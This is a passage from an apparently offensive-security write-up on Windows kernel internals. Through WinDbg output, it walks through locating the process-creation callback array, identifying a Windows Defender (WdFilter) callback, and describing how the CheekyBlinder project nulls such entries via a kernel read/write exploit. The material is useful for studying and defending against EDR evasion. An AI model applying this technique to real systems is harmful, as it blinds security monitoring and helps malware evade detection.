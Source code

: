 <pre>
nt!PspSetCreateProcessNotifyRoutine+0x54:
fffff807`23c1b2dc 488bf8          mov     rdi,rax
fffff807`23c1b2df 4885c0          test    rax,rax
fffff807`23c1b2e2 0f84ae630f00    je      nt!PspSetCreateProcessNotifyRoutine+0xf640e (fffff807`23d11696)
fffff807`23c1b2e8 33db            xor     ebx,ebx
<span style="color: green;">fffff807`23c1b2ea 4c8d2d0f124f00  lea     r13,[nt!PspCreateProcessNotifyRoutine (fffff807`2410c500)]</span>
fffff807`23c1b2f1 488d0cdd00000000 lea     rcx,[rbx*8]
fffff807`23c1b2f9 4533c0          xor     r8d,r8d
fffff807`23c1b2fc 4903cd          add     rcx,r13
</pre>

And now we can access the entries in the callback array as follow:

<pre>
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff807`2410c500  ffff800e`5beb7b4f ffff800e`5c7f725f
fffff807`2410c510  ffff800e`5c7f758f ffff800e`5c7f7a9f
fffff807`2410c520  ffff800e`5cdd5c2f ffff800e`5cdd652f
fffff807`2410c530  ffff800e`5cdd6a9f ffff800e`5e896edf
fffff807`2410c540  ffff800e`5e1ab33f ffff800e`5e1adf4f
fffff807`2410c550  00000000`00000000 00000000`00000000
fffff807`2410c560  00000000`00000000 00000000`00000000
fffff807`2410c570  00000000`00000000 00000000`00000000
</pre>

Each one of these entries are a callback registred by an EDR sys driver, lets take the second entry as an example <span style="color: green;">ffff800e`5c7f725f</span>

First we need to remove the last byte and null it out (The last 4 bits of these pointer addresses are insignificant), to access the callback entry structure.

<pre>
lkd> ? (ffff800e`5c7f725f >> 4) << 4
Evaluate expression: -140675806956976 = ffff800e`5c7f725<span style="color: green;">0</span>
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <span style="color: green;">fffff807`252e9b70</span>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> u fffff807`252e9b70 L3
<span style="color: green;">WdFilter!MpCreateProcessNotifyRoutineEx:</span>
fffff807`252e9b70 48895c2410      mov     qword ptr [rsp+10h],rbx
fffff807`252e9b75 48894c2408      mov     qword ptr [rsp+8],rcx
fffff807`252e9b7a 55              push    rbp
</pre>

The second entry which is <span style="color: green;">fffff807`252e9b70</span> is one of the functions that will be called when you create a process (WdFilter driver is related to windows defender). and this is only one of the callback entries.

So in the original cheeckyblinder project what he did is he nulled the whole entry in the callback table which is this one <span style="color: green;">ffff800e`5c7f725f</span>, so using a R/W primitive kernel exploit we can null the entry, and this is what the callback table looks like after nulling it out.
